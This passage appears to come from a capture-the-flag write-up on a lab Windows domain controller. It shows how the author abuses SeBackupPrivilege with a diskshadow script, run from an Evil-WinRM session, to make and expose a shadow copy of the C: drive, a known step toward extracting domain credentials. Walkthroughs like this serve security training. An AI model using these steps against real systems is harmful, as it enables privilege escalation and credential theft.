 ```console
SeRestorePrivilege            Restore files and directories  Enabled  
SeShutdownPrivilege           Shut down the system           Enabled  
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled  
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled  
  
  
USER CLAIMS INFORMATION  
-----------------------  
  
User claims unknown.  
  
Kerberos support for Dynamic Access Control on this device has been disabled.
```

Note the SeBackupPrivilege. We can abuse this using the method here: 

[Privileged Groups | HackTricks](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges#backup-operators)

I added the "X" to the end of each line because I found that the last character was getting stripped off in the next step.

```console
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% F:X
end backupX
```

Then I uploaded that to the `C:\Windows\Tasks` directory and executed it with:

```console
diskshadow /s script.txt
```

After running the script with diskshadow, we can see that we've successfully backed up the `C:\` drive.

```console
*Evil-WinRM* PS C:\Windows\Tasks> diskshadow /s script.txt  
Microsoft DiskShadow version 1.0  
Copyright (C) 2013 Microsoft Corporation  
On computer:  BABYDC,  6/21/2024 12:37:10 PM  
  
-> set metadata C:\Windows\Temp\meta.cab  
-> set context clientaccessible  
-> set context persistent  
-> begin backup  
-> add volume C: alias cdrive  
-> create  
Alias cdrive for shadow ID {0925b2b9-cf5d-427d-9a6b-ba68992a63fc} set as environment variable.  
Alias VSS_SHADOW_SET for shadow set ID {ed611205-454f-4713-9c5c-c41e3ca812e0} set as environment variable.  
  
Querying all shadow copies with the shadow copy set ID {ed611205-454f-4713-9c5c-c41e3ca812e0}  
  
       * Shadow copy ID = {0925b2b9-cf5d-427d-9a6b-ba68992a63fc}               %cdrive%  
               - Shadow copy set: {ed611205-454f-4713-9c5c-c41e3ca812e0}       %VSS_SHADOW_SET%  
               - Original count of shadow copies = 1  
               - Original volume name: \\?\Volume{1b77e212-0000-0000-0000-100000000000}\ [C:\]  
               - Creation time: 6/21/2024 12:37:29 PM  
               - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1  
               - Originating machine: BabyDC.baby.vl  
               - Service machine: BabyDC.baby.vl  
```
